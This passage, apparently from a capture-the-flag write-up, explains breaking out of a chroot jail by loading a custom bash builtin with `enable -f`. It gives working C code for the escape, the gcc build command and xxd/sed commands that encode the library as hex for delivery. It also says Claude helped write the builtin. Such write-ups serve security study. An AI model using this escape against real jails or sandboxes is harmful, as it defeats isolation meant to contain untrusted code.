 The important note is the `-f` option, we can load out own bash builtin. Presumably these are built with C and don't require execute permissions, so we can load a `chroot` escape and break out of the jail!

## Escaping

I used the help of Claude to generate a sample builtin and then included my own breakout code:
```c
#include "builtins.h"
#include "shell.h"
#include <unistd.h>
#include <sys/stat.h>
#include <stdio.h>

int escape_builtin(WORD_LIST *list) {
    mkdir(".breakout", 0755);
    chroot(".breakout");
    
    for (int i = 0; i < 1024; i++) {
        chdir("..");
    }
    
    chroot(".");
    
    execl("/bin/bash", "bash", NULL);
    
    return EXECUTION_FAILURE;
}

struct builtin escape_struct = {
    "escape",
    escape_builtin,
    BUILTIN_ENABLED,
    (char **)0,
    "escape - attempt chroot escape",
    0
};
```


I then had to build it, making sure to include the bash builtins during compilation (make sure to install the relevant bash dev packages):
```bash
$ gcc -fPIC -shared -I/usr/include/bash -I/usr/include/bash/include -o escape.so escape.c
```

Once compiled, we need to convert it to hex compatible with `printf`. `xxd` converts it to hex and usage of `sed` and `tr` will do the rest.

```bash
$ xxd -p -c1 escape.so | sed 's/^/\\x/' | tr -d '\n' > escape.hex
```

A quick test of our methodology indicates everything is working:
```bash
$ printf $(cat escape.hex) > escape2.so
$ file escape*.so
escape.so:  ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=84c9a1e00b4d0a363a750639246160dc09a8dfd3, not stripped
escape2.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=84c9a1e00b4d0a363a750639246160dc09a8dfd3, not stripped
```
